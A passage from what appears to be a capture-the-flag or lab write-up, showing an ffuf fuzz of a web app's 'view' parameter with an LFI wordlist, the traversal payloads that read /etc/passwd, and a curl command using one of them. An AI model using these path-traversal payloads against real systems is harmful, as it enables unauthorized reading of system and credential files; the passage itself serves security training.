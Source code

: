 So, our parameter is `view`, let's fuzz using the LFI wordlist:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.55.155:35676/index.php?view=FUZZ' -fs 1935
```

We can see this:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.55.155:35676/index.php?view=FUZZ' -fs 1935

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.55.155:35676/index.php?view=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1935
________________________________________________

../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 250ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 254ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 255ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 263ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 340ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 340ms]
```

If we try that:

```
curl -s "http://94.237.55.155:35676/index.php?view=../../../../../../../../../../../../../../../../../../../etc/passwd"
```
